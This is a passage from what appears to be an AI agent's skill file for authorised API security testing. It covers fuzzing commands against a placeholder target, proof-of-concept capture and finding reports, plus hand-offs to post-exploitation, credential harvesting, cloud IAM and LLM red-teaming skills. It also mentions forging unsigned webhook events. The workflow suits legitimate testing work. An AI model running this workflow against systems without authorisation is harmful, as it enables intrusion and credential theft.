- Common pattern: `/api/webhook/stripe` accepts any POST without signature validation → forge events → grant subscriptions

If chained from `/codebase`, search for patterns: `requests.get(user_supplied_url)`, `axios.get(user_data.url)`, `fetch(req.body.callback)`.

---

### Phase 11 — Property Fuzzing (thorough only)

For thorough scans, run a property-based fuzzer over the OpenAPI spec to find crashes and unexpected behaviors that manual testing missed.

**schemathesis (best for OpenAPI):**
```
kali(command="schemathesis run https://TARGET/openapi.json --base-url https://TARGET --header 'Authorization: Bearer TOKEN' --checks all --hypothesis-max-examples=50 --hypothesis-deadline=5000")
```

`--checks all` includes: `not_a_server_error`, `status_code_conformance`, `content_type_conformance`, `response_schema_conformance`, `response_headers_conformance`.

**restler-fuzzer (best for stateful sequences):**
```
kali(command="restler compile --api_spec /tmp/openapi.json && restler test --grammar_file ./Compile/grammar.py --dictionary_file ./Compile/dict.json --settings ./Compile/engine_settings.json")
```

**openapi-fuzzer:**
```
kali(command="openapi-fuzzer run -s /tmp/openapi.json -u https://TARGET")
```

For every crash / 500 / schema mismatch, save the request and verify manually. Many of these are info-disclosure or DoS findings.

---

### Phase 12 — Coverage Gap Report

Review the coverage matrix for any remaining pending or skipped cells:

1. Call `session(action="status")` — check coverage stats
2. For any pending cells: either test them now or mark as `skipped` with a documented reason
3. Call `report(action="note", data={...})` with a coverage summary: `"Coverage: X/Y tested, Z vulnerable, W N/A, V skipped"`
4. The session completion gate requires ≥80% of cells addressed (tested + N/A + skipped)

---

### Phase 13 — Verification & PoC

For every confirmed finding:

1. Call `report(action="note", data={...})` explaining what you're verifying
2. Reproduce with `http(action="request", ...)` — craft the minimal working payload (no extra headers, no auth if anonymous, no fluff)
3. Call `http(action="request", options={"poc": true})` to route through Burp Suite
4. Call `http(action="save_poc", ...)` with descriptive title (e.g., `bola-orders-cross-tenant`, `bfla-admin-users-via-verb-tampering`, `mass-assignment-isadmin`)
5. Call `report(action="finding", data={...})` with:
   - `severity`: critical (PII exfil at scale, cross-tenant write, RCE), high (cross-tenant read, BFLA, JWT bypass), medium (mass assignment of low-impact fields, info disclosure), low (verbose errors, missing headers)
   - `description`: **always cite the OWASP API Top 10 ID** (`API1:2023`, `API5:2023`, etc.)
   - `evidence`: Raw request/response — both the failed-as-expected request AND the successful-bypass request, side by side

---

### Phase 14 — Report & Wrap-Up

1. Call `report(action="diagram", data={...})` with an attack flow showing the most impactful chain:



2. Call `session(action="complete", options={...})` with summary of all confirmed findings (organized by API Top 10 category)
3. **Chain to `/web-exploit`** if classic injection points (SQLi, XSS in error responses, SSTI in template engines) were found in API parameters
4. **Chain to `/post-exploit`** if RCE was achieved (e.g., via Jolokia, deserialization, SSRF→IMDS→IAM)
5. **Chain to `/ai-redteam`** if an LLM/AI endpoint was discovered during exploitation (chat APIs, completion endpoints, RAG search, agentic tool-use, MCP servers). API testing often touches these surfaces — when it does, hand off for OWASP LLM Top 10, AITG, and MCP Top 10 testing
6. **Chain to `/credential-audit`** if credential material (hashes, tokens, user lists) was recovered
7. **Chain to `/analyze-cve`** if a vulnerable framework / library version was disclosed

---

## Context Recovery After Compaction

When your context is compacted mid-scan:

1. **Re-invoke `/api-security`** — use the Skill tool to reload this full workflow
2. **Call `session(action="status")`** — coverage stats in the response tell you exactly where you are
3. **Pending cells tell you where to resume** — the matrix persists in `coverage_matrix.json`
4. **Do NOT re-discover endpoints** — they persist across context compactions
5. **Resume Phase 3** (BOLA loop) from pending cells — that is the most productive place to restart

---

## Rules

- **`session(action="start", options={...})` is mandatory** — never run any other tool before it
- **Discovery before testing** — run Phase 1 in full before testing any endpoint. The biggest API findings are on endpoints you didn't know existed.
- **Two accounts are required for thorough depth** — without them you cannot detect cross-tenant BOLA, which is the most common API1 finding. If the user did not provide two accounts, ask for them or downgrade to standard depth.
- **Always cite the OWASP API Top 10 ID** in finding descriptions (`API1:2023`, `API5:2023`, etc.) — this is non-negotiable for API findings
- **Batch independent tools in the same response** — they execute in parallel
- When any tool returns a LIMIT message, stop immediately and call `session(action="complete", options={...})`
- **`http(action="request", ...)` with `poc=True`** — only set this flag when the request is a confirmed, report-worthy exploit. Routes through Burp Suite for HTTP History capture. Do NOT use for recon probes.
- **`http(action="save_poc", ...)`** — call alongside every `http(action="request", options={"poc": true})`. Write a descriptive `title` that names the vulnerability class and endpoint
- **Never fabricate findings** — only report what you actually verified end-to-end with a request/response pair
- **Mermaid syntax rules**: use `flowchart TD`, quote labels, no em-dashes, short alphanumeric node IDs
- **Use `report(action="note", data={...})` liberally** — call it before every tool to explain *why* you are running it and after every significant result to record what you concluded. This is the audit trail.
- **Investigate every clue to exhaustion** — a BOLA on `/users/{id}` should always be followed by mass-assignment tests on `/users/me`, BFLA tests on `/admin/users`, and inventory drift tests on `/api/v1/users/{id}` vs `/api/v2/users/{id}`. The chain matters more than the individual finding.
- Call `session(action="stop_kali")` at the end if `kali(command=...)` was used

---

## Chaining Other Skills

| Skill | When to invoke |
|-------|----------------|
| `/web-exploit` | Classic web injection point discovered in an API parameter (SQLi, XSS in error responses, SSTI, command injection, deserialization). API testing handles auth/authz/business-logic; web-exploit handles injection depth |
| `/post-exploit` | RCE achieved via deserialization, Jolokia, SSRF→cloud→keys, or any other path — privilege escalation, credential harvesting, persistence |
| `/analyze-cve` | CVE-affected framework or library version disclosed in error responses, headers, or `/actuator/info` — trace exploitability with full source-to-sink context |
| `/credential-audit` | Credentials recovered (JWT secrets, API keys, password hashes, user lists) or weak auth endpoint identified — chain for systematic credential testing |
| `/ai-redteam` | **LLM/AI endpoint discovered** — chat APIs, completion endpoints, RAG search, agentic tool-use endpoints, MCP servers. Hand off for OWASP LLM Top 10, AITG, and MCP Top 10 testing instead of stopping at the HTTP layer. Common signals: prompt-shaped POST bodies, `messages[]` arrays, `system`/`user`/`assistant` roles, streaming SSE responses, model name parameters, tool/function-calling schemas |
| `/codebase` | Source code available — pivot to white-box review for API10 (unsafe consumption) and to find every router definition, decorator, and middleware that black-box discovery missed |
| `/cloud-security` | SSRF reached cloud metadata service and credentials were extracted — assess full IAM blast radius |
| `/gh-export` | When user asks to file GitHub issues|
